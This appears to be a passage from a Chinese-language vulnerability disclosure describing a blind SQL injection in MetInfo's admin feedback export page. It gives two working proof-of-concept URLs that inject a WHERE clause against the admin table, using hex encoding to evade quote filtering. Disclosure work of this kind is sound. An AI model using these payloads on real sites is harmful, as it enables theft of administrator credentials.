 /////////////////////////////

对于查询的到的结果，会写入 excel 文件内，但是因为列名是规定得死死的，不能直接把 admin_table 表的 password 列直接写进 excel，但是 id 是可以的，这就足够进行盲注了

## 漏洞证明

验证漏洞的存在：

1\. 其中 met_ 为我实验环境 metinfo 的前缀（若要复线请根据实际情况修改）， admin_id=0x61646d696e 为字符串'admin'(过滤了单引号)

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696e -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

然后测试一组错误的,把'admin'改成'admil'试试

[`localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table`](http://localhost/MetInfo/admin/content/feedback/export.php?met_parameter_1=met_admin_table) where admin_id=0x61646d696c -- ;&class1=1&settings_arr[0][columnid]=1&settings_arr[0][name]=met_parameter

结果对比图如下

![](img/02171024e6892a08d8b21be9e514331ae1d4efa2.png)

![](img/0217104753ca02b2379f0eab73a56b3ba9dc7925.png)
